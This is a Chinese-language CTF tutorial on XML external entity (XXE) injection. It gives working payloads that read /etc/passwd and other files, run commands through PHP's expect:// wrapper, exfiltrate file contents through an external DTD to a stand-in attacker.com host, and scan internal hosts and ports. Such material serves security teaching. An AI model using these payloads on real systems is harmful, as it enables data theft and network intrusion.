

# CTF教程：P70：XXE利用


## 概述
在本节课中，我们将学习XML外部实体注入攻击。我们将了解XXE漏洞的原理、如何发现它，以及在有回显和无回显两种场景下的利用方法。课程内容将涵盖参数实体的高级用法，并演示如何通过构造恶意实体来读取服务器文件或探测内网。

## 命令执行扩展补充
在PHP引用外部实体时，它支持一些扩展。当目标机器安装并加载了PHP的`expect`扩展时，就可以执行系统命令。

其用法如下所示，后面加上要执行的命令：
```xml
<!ENTITY xxe SYSTEM "expect://id">
```
在XML中，在外部实体处使用此定义，如果扩展已安装，它就会回显UID信息。

## 参数实体详解
上一节我们介绍了普通实体，本节中我们来看看参数实体。参数实体分为内部声明和外部声明。

内部参数实体的声明方式如下，相比普通实体多了一个百分号（`%`）：
```xml
<!ENTITY % 实体名称 "实体值">
```
外部参数实体的声明方式如下：
```xml
<!ENTITY % 实体名称 SYSTEM "URL">
```
以下是参数实体的声明与引用示例图：
```
[DTD区域]
<!ENTITY % para_entity "value">   <!-- 声明参数实体 -->
...
%para_entity;                     <!-- 在DTD中引用参数实体 -->
```
```
[文档元素区域]
&general_entity;                  <!-- 在文档内容中引用普通实体 -->
```
**核心规则**：参数实体使用`%实体名;`的格式进行引用，并且**只能在DTD区域内部使用**，不能在XML文档内容中直接引用。

### 参数实体与普通实体对比
以下是普通实体与参数实体的对比示例，帮助大家回顾和理解：

```xml
<!ENTITY normal "hello">                    <!-- 内部普通实体 -->
<!ENTITY normal1 SYSTEM "file:///c:/windows/win.ini"> <!-- 外部普通实体 -->
<!ENTITY % param_internal "word">          <!-- 内部参数实体 -->
<!ENTITY % param_external SYSTEM "http://127.0.0.1:9999/c.dtd"> <!-- 外部参数实体 -->
```
在DTD中引用参数实体：
```xml
%param_internal;
%param_external;
```
在文档内容中，通过参数实体定义的普通实体进行引用：
```xml
&normal; &normal1;
```
如果监听本地的9999端口，也会看到对应的请求。

## 解决文件读取中的特殊字符问题
我们回到之前的问题：如何读取含有特殊字符（如`<`, `&`）的文件？最初的思路是使用`CDATA`包裹内容。

假设尝试这样拼接：
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///d:/xxe_test.txt">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY combined '%start;%file;%end;'>">
%all;
```
然后在文档中引用`&combined;`。但这会报错：“参数实体引用不能出现在DTD的内部子集的标记内”。

**原因**：参数实体必须定义在**单独的DTD文档**（即外部子集）中，而不能直接定义在XML文档内部的DTD子集里。

### 利用外部DTD进行文件读取
因此，我们可以将参数实体的定义和拼接放到一个外部的DTD文件中。

**方法一：外部DTD引用**
1.  创建一个外部DTD文件（如`evil.dtd`），内容如下：
    ```xml
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///d:/xxe_test.txt">
    <!ENTITY % end "]]>">
    <!ENTITY % all "<!ENTITY combined '%start;%file;%end;'>">
    %all;
    ```
2.  在目标XML中，先引用这个外部DTD，再引用其中定义的实体：
    ```xml
    <!DOCTYPE root [
        <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
        %dtd;
    ]>
    <root>&combined;</root>
    ```
这样，解析器会先加载`evil.dtd`，执行其中的`%all;`，从而声明`combined`实体，最后在文档中成功引用并回显文件内容。

**方法二：直接在DOCTYPE中引用外部实体**
也可以将整个Payload放在外部，然后直接引用：
```xml
<!DOCTYPE root [
    <!ENTITY % file SYSTEM "file:///d:/xxe_test.txt">
    <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
    %dtd;
]>
<root>&exfil;</root>
```
其中`evil.dtd`内容为：
```xml
<!ENTITY % exfil "<!ENTITY &#x25; send SYSTEM 'http://attacker.com:9999/?%file;'>">
%exfil;
%send;
```
核心思路都是**将参数实体的拼接操作转移到外部的DTD文件中执行**，以绕过内部子集的限制。

## XXE漏洞基础
XXE即XML External Entity，XML外部实体注入攻击。当应用程序解析XML输入时，没有禁止外部实体的加载，导致攻击者可以通过外部实体获取受保护的数据。

**产生原因**：在文档类型定义部分可以引用外部DTD文件。XML解析器在解析外部实体时支持多种协议（如`file://`读取本地文件，`http://`访问网络资源），攻击者可以构造恶意外部实体进行利用。

### 漏洞发现
以下是发现XXE漏洞的步骤：

1.  **寻找XML输入点**：寻找能够接受XML作为输入内容的端点。例如，在HTTP请求中，将`Content-Type`头部改为`application/xml`，并提交XML数据，测试是否被解析。
2.  **测试实体引用**：如果站点解析XML，尝试引用外部实体。例如，提交以下Payload：
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE test [
        <!ENTITY xxe SYSTEM "http://your-burp-collaborator-domain">
    ]>
    <user>&xxe;</user>
    ```
    如果收到来自目标服务器对Collaborator域名的请求，则证明存在XXE漏洞。

### 有回显的XXE利用
有回显的XXE可以直接在页面中看到执行结果。

**本地文件读取**：
*   直接使用`file`协议：`<!ENTITY xxe SYSTEM "file:///etc/passwd">`
*   PHP环境可使用`php://filter`协议：`<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">`
*   读取含特殊字符的文件，需结合`CDATA`和外部DTD（如前所述）。

**注意**：某些XML解析库支持列目录，例如：`<!ENTITY xxe SYSTEM "file:///c:/">` 可能会列出C盘根目录下的文件。

### 无回显（Blind）XXE利用
大多数情况下，服务器解析XML后并无回显。此时需要利用外带数据通道提取数据。

**利用思路**：
1.  定义一个参数实体，通过`file`协议读取目标文件。
2.  定义另一个参数实体，将文件内容作为URL的一部分，向攻击者控制的服务器发起HTTP请求。
3.  由于**同级参数实体不会被解析**，需要利用参数实体嵌套，并将最终Payload放在**外部DTD**中。

**典型Payload结构**：
1.  目标XML文件：
    ```xml
    <!DOCTYPE root [
        <!ENTITY % file SYSTEM "file:///d:/1.txt">
        <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
        %dtd;
    ]>
    <root>&send;</root>
    ```
2.  攻击者服务器上的`evil.dtd`文件：
    ```xml
    <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://attacker.com:8998/?%file;'>">
    %payload;
    ```
当目标解析此XML时，会加载外部DTD。`%payload;`被执行，声明了`send`实体，其值是一个向攻击者服务器发送包含文件内容的HTTP请求。最后`&send;`被引用，触发请求，攻击者查看服务器日志即可获得文件内容。

如果HTTP带不出数据，可以尝试使用`ftp://`协议。

## 内网主机与端口探测
利用XXE可以进行内网探测。

**内网主机探测**：
构造一个访问内网IP的实体，通过响应时间或长度判断主机是否存活。
```xml
<!ENTITY xxe SYSTEM "http://192.168.1.1:80">
```
在Burp Suite的Intruder模块中，将IP地址设为变量进行爆破，根据响应差异判断存活主机。



**端口探测**：
在确认主机存活后，可以进一步爆破端口。
```xml
<!ENTITY xxe SYSTEM "http://192.168.1.195:PORT">
```
将`PORT`设为变量，对常见端口进行爆破。

## 总结
本节课我们一起学习了XXE漏洞的利用。
*   我们首先了解了参数实体的概念和使用限制，特别是其必须在外部DTD中才能进行复杂拼接。
*   然后，我们学习了如何发现XXE漏洞，以及在有回显和无回显两种场景下的利用方法，核心是通过构造恶意外部实体读取文件。
*   最后，我们探讨了利用XXE进行内网主机和端口探测的思路。
理解参数实体与外部DTD的配合使用，是掌握高级XXE利用的关键。